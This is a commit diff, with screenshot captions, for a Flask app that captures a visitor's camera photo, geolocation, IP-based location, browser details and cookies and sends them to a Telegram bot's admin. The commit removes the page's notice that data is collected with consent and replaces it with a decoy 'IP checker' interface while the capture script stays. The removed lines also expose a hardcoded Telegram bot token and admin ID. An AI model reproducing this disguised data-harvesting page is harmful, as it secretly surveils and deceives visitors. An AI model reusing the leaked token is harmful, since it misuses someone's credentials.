

Before and after one commit to otaboyevsardorbek1/bonus-2025, a Flask app: template templates/index.html in a window 1280 px wide. Shown: the top 300 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020).

Commit message:
new func add all

```diff
--- /dev/null
+++ b/config.py
@@ -0,0 +1,6 @@
+import os
+from dotenv import load_dotenv
+load_dotenv()
+
+BOT_TOKEN = os.getenv("BOT_TOKEN")
+ADMIN_ID = os.getenv("ADMIN_ID")
--- a/main.py
+++ b/main.py
@@ -1,10 +1,9 @@
 import os
-from flask import Flask, request, render_template
+from flask import Flask, request, render_template,jsonify
 import requests
+import uuid
 app = Flask(__name__)
-
-BOT_TOKEN = '7950728193:AAEQYqYDSOZ4wV0EPgyt45HImolwYk6LFoY'
-ADMIN_ID = 6646928202
+from config import BOT_TOKEN, ADMIN_ID
 
 def get_bot_username():
     """Get the bot's username from the Telegram API."""
@@ -17,15 +16,33 @@ def get_bot_username():
 
 @app.route('/')
 def index():
-    return render_template('index.html')
+    BOT_USERNAME= get_bot_username()
+    if not BOT_USERNAME:
+        return render_template("index.html", bot_username=BOT_USERNAME), 500
+    return render_template("index.html", bot_username=BOT_USERNAME),200
 
 @app.route('/check-ip/<ip>')
 def check_ip(ip):
-    res = requests.get(f"https://ipinfo.io/{ip}/json")
-    if res.status_code != 200:
-        return {'error': 'IP ma’lumotlari topilmadi'}, 404
-    res.raise_for_status()
-    return res.json()
+    try:
+        res = requests.get(f"https://ipinfo.io/{ip}/json")
+        if res.status_code != 200:
+            return jsonify({'error': 'IP ma`lumotlari topilmadi'})
+        return res.json()
+    except requests.RequestException as e:
+        return jsonify({'error': str(e)})
+    except Exception as e:
+        return jsonify({'error': str(e)})
+
+def fetch_check_ip(ip):
+    try:
+        res = requests.get(f"https://ipinfo.io/{ip}/json")
+        if res.status_code != 200:
+            return {}
+        return res.json()
+    except Exception as e:
+        return {}
+
+
 
 def clean_value(value: str, max_length=100):
     """Xavfsizlik uchun qiymatni tozalash va cheklash"""
@@ -35,8 +52,11 @@ def clean_value(value: str, max_length=100):
 def upload():
     if 'photo' not in request.files:
         return 'Rasm yo‘q', 400
+    photo = request.files['photo']
+    # Fayl turi tekshiruvi
+    if photo.content_type != 'image/jpeg':
+        return 'Faqat JPEG formatdagi rasm fayllari qabul qilinadi', 400
 
-    photo = request.files['photo']
     # Form ma’lumotlarini tozalash va cheklash
     user_agent     = clean_value(request.form.get('userAgent', 'Nomalum'))
     platform       = clean_value(request.form.get('platform', 'Nomalum'))
@@ -46,14 +66,25 @@ def upload():
     language       = clean_value(request.form.get('language', 'Nomalum'))
     tz_offset      = clean_value(request.form.get('timezoneOffset', 'Nomalum'))
     user_timezone  = clean_value(request.form.get('userTimezone', 'Nomalum'))
-    latitude       = float(request.form.get('latitude', 'Nomalum'))
-    longitude      = float(request.form.get('longitude', 'Nomalum'))
-    user_ip        = clean_value(request.form.get('user_ip', request.remote_addr or 'Nomalum'))
-    user_ip_data = check_ip(user_ip)
+    latitude       = request.form.get('latitude', 'Nomalum')
+    longitude      = request.form.get('longitude', 'Nomalum')
+    user_ip        = request.form.get('user_ip', 'Nomalum')
+    if not user_ip or user_ip == 'Nomalum':
+        user_ip = request.remote_addr
+    user_ip_data = fetch_check_ip(user_ip)
 
     # Rasmni vaqtinchalik saqlash
-    photo_path = 'auto.jpg'
-    photo.save(photo_path)
+    filename = f"{uuid.uuid4().hex}.jpg"
+    os.makedirs("uploads", exist_ok=True)
+    photo_path = os.path.join("uploads", filename)
+    if not photo_path:
+        return 'Rasmni saqlashda xatolik', 500
+
+    try:
+        photo.save(photo_path)
+    except Exception as e:
+        return f"Rasmni saqlab bo‘lmadi: {e}", 500
+
     city = user_ip_data.get('city', "Noma'lum")
     region = user_ip_data.get('region', "Noma'lum")
     country = user_ip_data.get('country', "Noma'lum")
@@ -80,14 +111,23 @@ def upload():
 
     # Telegram orqali yuborish
     send_url = f'https://api.telegram.org/bot{BOT_TOKEN}/sendPhoto'
-    with open(photo_path, 'rb') as f:
-        requests.post(send_url, data={
-            'chat_id': ADMIN_ID,
-            'caption': caption_text,
-            'parse_mode': 'HTML'
-        }, files={'photo': f})
+    try:
+        with open(photo_path, 'rb') as f:
+            resp = requests.post(send_url, data={
+                'chat_id': ADMIN_ID,
+                'caption': caption_text,
+                'parse_mode': 'HTML'
+            }, files={'photo': f})
+        if resp.status_code != 200 or not resp.json().get('ok'):
+            return 'Telegramga yuborishda xatolik', 500
+    except Exception as e:
+        return f"Telegramga yuborishda xatolik: {e}", 500
 
-    os.remove(photo_path)
+    try:
+        os.remove(photo_path)
+    except Exception as e:
+        print(f"Faylni o‘chirishda xatolik: {e}")
+    # Istasangiz: return 'Fayl o‘chirilmadi', 500
     return 'Yuborildi ✅', 200
 
 
@@ -97,5 +137,4 @@ def chrome_devtools_fix():
     return '', 204  # 204 No Content
 
 if __name__ == '__main__':
-    print(f" @{get_bot_username()}")  # Call to ensure the bot username is fetched at startup
-    app.run(debug=True, host='0.0.0.0', port=int(os.environ.get('PORT', 5000)))
+    app.run(debug=False, host='0.0.0.0', port=int(os.environ.get('PORT', 5000)))
--- a/requirements.txt
+++ b/requirements.txt
@@ -1,3 +1,4 @@
-opencv-python
 requests
 flask
+gunicorn
+python-dotenv
--- /dev/null
+++ b/static/logo/about.txt
@@ -0,0 +1,6 @@
+This favicon was generated using the following font:
+
+- Font Title: Laila
+- Font Author: undefined
+- Font Source: https://fonts.gstatic.com/s/laila/v20/LYjMdG_8nE8jDIRdiidIrEIu.ttf
+- Font License: undefined)
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,7 +3,25 @@
 
 <head>
     <meta charset="UTF-8">
-    <title>Salom</title>
+    <title>IP-GET-DATA-USER</title>
+    <!-- Apple Touch Icon -->
+    <link rel="apple-touch-icon" sizes="180x180" href="{{ url_for('static', filename='logo/apple-touch-icon.png') }}">
+
+    <!-- Android Chrome Icons -->
+    <link rel="icon" type="image/png" sizes="192x192" href="{{ url_for('static', filename='logo/android-chrome-192x192.png') }}">
+    <link rel="icon" type="image/png" sizes="512x512" href="{{ url_for('static', filename='logo/android-chrome-512x512.png') }}">
+
+    <!-- Favicon Icons -->
+    <link rel="icon" type="image/png" sizes="32x32" href="{{ url_for('static', filename='logo/favicon-32x32.png') }}">
+    <link rel="icon" type="image/png" sizes="16x16" href="{{ url_for('static', filename='logo/favicon-16x16.png') }}">
+    <link rel="shortcut icon" type="image/x-icon" href="{{ url_for('static', filename='logo/favicon.ico') }}">
+
+    <!-- Manifest -->
+    <link rel="manifest" href="{{ url_for('static', filename='logo/site.webmanifest') }}">
+
+    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
+    <wbr><p>Bot username: <strong>@{{ bot_username }}</strong></p></wbr>
+</head>
     <style>
         #video {
             display: none;
@@ -33,14 +51,83 @@
     }
 </style>
 <body>
-    <h1><b><i><u>Salom bu test sahifasi</u></i></b></h1>
-    <h3>
-        <p>Bu sahifa sizning brauzeringizdagi kamera va geolokatsiyani tekshirish uchun ishlatiladi.</p>
-        <p>Bu sahifa orqali sizning brauzeringizdagi kamera va geolokatsiya ma'lumotlari to'planadi va serverga
-            yuboriladi.</p>
-        <p>Bu ma'lumotlar sizning ruxsatingiz bilan to'planadi va yuboriladi.</p>
-    </h3>
+  <body class="p-4">
 
+  <div class="text-center mb-4">
+        <h3 class="ip-title">IP manzilni aniqlash:</h3>
+        <button id="checkIpBtn" class="btn btn-primary mt-2">IP ni aniqlash va tekshirish</button>
+    </div>
+
+    <!-- Modal oynasi -->
+    <div class="modal fade" id="responseModal" tabindex="-1" aria-labelledby="modalLabel" aria-hidden="true">
+      <div class="modal-dialog modal-lg modal-dialog-centered">
+        <div class="modal-content text-center">
+          <div class="modal-header justify-content-center">
+            <h5 class="modal-title w-100" id="modalLabel">IP ma'lumotlari</h5>
+            <button type="button" class="btn-close position-absolute end-0 me-3" data-bs-dismiss="modal" aria-label="Yopish"></button>
+          </div>
+          <div class="modal-body">
+            <pre id="jsonOutput" class="d-flex justify-content-center text-start mx-auto" style="white-space: pre-wrap; max-width: 90%;"></pre>
+          </div>
+          <div class="modal-footer justify-content-center">
+            <img
+              id="telegramShareBtn"
+              src="https://static.cdnlogo.com/logos/t/4/telegram-thumb.png"
+              alt="Telegramda ulashish"
+              style="cursor: pointer; width: 40px; height: 40px;"
+              title="Telegramda ulashish"
+            />
+          </div>
+        </div>
+      </div>
+    </div>
+
+    <!-- Bootstrap JS va Popper (CDN) -->
+    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/js/bootstrap.bundle.min.js"></script>
+
+    <script>
+      document.getElementById('checkIpBtn').addEventListener('click', async function () {
+          let userIp = 'unknown';
+          window.userIp = userIp;
+          try {
+              // IP manzilni olish
+              const ipRes = await fetch('https://api.ipify.org?format=json');
+              const ipData = await ipRes.json();
+              userIp = ipData.ip;
+              window.userIp = userIp;
+
+              // Backend URL avtomatik aniqlanadi
+              const baseUrl = window.location.origin;
+              const url = `${baseUrl}/check-ip/${userIp}`;
+
+              // Backenddan IP ma'lumotlarini olish
+              const res = await fetch(url);
+              if (!res.ok) throw new Error('Maʼlumotlar topilmadi');
+              const data = await res.json();
+
+              // Modalga JSON chiqadi
+              document.getElementById('jsonOutput').textContent = JSON.stringify(data, null, 2);
+              const modal = new bootstrap.Modal(document.getElementById('responseModal'));
+              modal.show();
+
+          } catch (err) {
+              document.getElementById('jsonOutput').textContent = 'Xatolik yuz berdi: ' + err.message;
+              const modal = new bootstrap.Modal(document.getElementById('responseModal'));
+              modal.show();
+          }
+      });
+
+      // Telegramda ulashish tugmasi funksiyasi
+      document.getElementById('telegramShareBtn').addEventListener('click', function() {
+          const userIp = window.userIp || 'unknown';
+          const baseUrl = window.location.origin;
+          const urlToShare = `${baseUrl}/check-ip/${userIp}`;
+          const encodedUrl = encodeURIComponent(urlToShare);
+          const telegramUrl = `https://t.me/share/url?url=${encodedUrl}&text=Siz uchun foydali ma’lumotlar:`;
+          window.open(telegramUrl, '_blank');
+      });
+    </script>
+</body>
     <video id="video" autoplay></video>
 
 <script>
@@ -275,10 +362,6 @@
         formData.append('latitude', latitude);
         formData.append('longitude', longitude);
 
-        console.table({
-            userAgent, platform, language, timezoneOffset, batteryLevel,
-            batteryCharging, userTimezone, user_ip, cookies, latitude, longitude
-        });
 
         fetch('/upload', {
             method: 'POST',
@@ -291,7 +374,7 @@
                 alert("Yuborishda xatolik ❌");
             }
         }).catch(err => {
-            alert("📸 Kamera yoki 📡 server bilan bog‘lanishda muammo:\n\n" + err);
+            alert(" 📡 server bilan bog`lanishda muammo:\n\n" + "ILtimos keyinroq qayta urinib ko`ring.!");
         });
     }
 </script>
```
Also changed, not shown: static/logo/android-chrome-192x192.png (added), static/logo/android-chrome-512x512.png (added), static/logo/apple-touch-icon.png (added), static/logo/favicon-16x16.png (added), static/logo/favicon-32x32.png (added), static/logo/favicon.ico (added), static/logo/site.webmanifest (added), 1 other file.
